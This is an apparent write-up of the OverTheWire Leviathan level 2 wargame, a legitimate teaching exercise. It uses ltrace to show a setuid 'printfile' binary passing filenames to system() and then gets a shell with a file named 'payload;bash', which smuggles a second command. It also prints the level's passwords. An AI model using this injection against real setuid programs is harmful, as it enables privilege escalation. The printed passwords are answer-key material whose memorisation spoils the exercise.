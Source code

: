 # Level 2

### Login
`ssh`: ssh leviathan2@leviathan.labs.overthewire.org -p 2223
`password`: mEh5PNl10e

### Solution
Lets use the `ls -al` command to see what files are availabe for us in the home directory:
```shell
leviathan3@gibson:~$ ls -al
total 36
drwxr-xr-x  2 root       root        4096 Oct  5 06:19 .
drwxr-xr-x 83 root       root        4096 Oct  5 06:20 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Oct  5 06:19 printfile
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```

It seems that there's a binary named `printfile` available. It also looks like this binary can be executed. Let's execute `printfile` to understand its functionality:
```shell
leviathan3@gibson:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan3@gibson:~$ 
```

The `printfile` binary appears to accept a file as an argument and outputs the contents of the provided file. Let's attempt to give it the password file for `leviathan3` as an argument:

```shell
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Of course it wouldnt be that easy! We've learned what occurs when we feed a file that we can't access to the binary. But what if we give the binary a file that we can access? It's always wise to examine all scenarios and note any differences. However, we first need to generate a test file:

```shell
leviathan2@gibson:~$ mkdir /tmp/kevin
leviathan2@gibson:~$ touch /tmp/kevin/test.txt
leviathan2@gibson:~$ ./printfile /tmp/kevin/test.txt
```

It appears that `printfile` successfully displayed the contents of our `test.txt` file. Since our test file was empty, there was nothing to show. Let's repeat this process, but this time, we'll utilize `ltrace`:

```shell
leviathan2@gibson:~$ ltrace ./printfile /tmp/kevin/test.txt 
__libc_start_main(0x80491e6, 2, 0xffffd5c4, 0 <unfinished ...>
access("/tmp/kevin/test.txt", 4)                                              = 0
snprintf("/bin/cat /tmp/kevin/test.txt", 511, "/bin/cat %s", "/tmp/kevin/test.txt") = 28
geteuid()                                                                     = 12002
geteuid()                                                                     = 12002
setreuid(12002, 12002)                                                        = 0
system("/bin/cat /tmp/kevin/test.txt" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                        = 0
+++ exited (status 0) +++
```

I smell a vulnerability! It seems access is utilized to verify if the invoking process has access to the file pathname. However, observe `snprintf`. It executes `/bin/cat` on the file we provide. There doesn't seem to be any input validation. What would occur if we generate a file named `payload;bash` and feed it to the binary?!

```
leviathan2@gibson:~$ touch "/tmp/kevin/payload;bash"
leviathan2@gibson:~$ ./printfile /tmp/kevin/payload\;bash 
leviathan3@gibson:~$ 
```

It appears we are now operating as `leviathan3`! Let's display the contents of the password file using `cat`:

```shell
leviathan3@gibson:~$ cat /etc/leviathan_pass/leviathan3 
Q0G8j4sakn
```
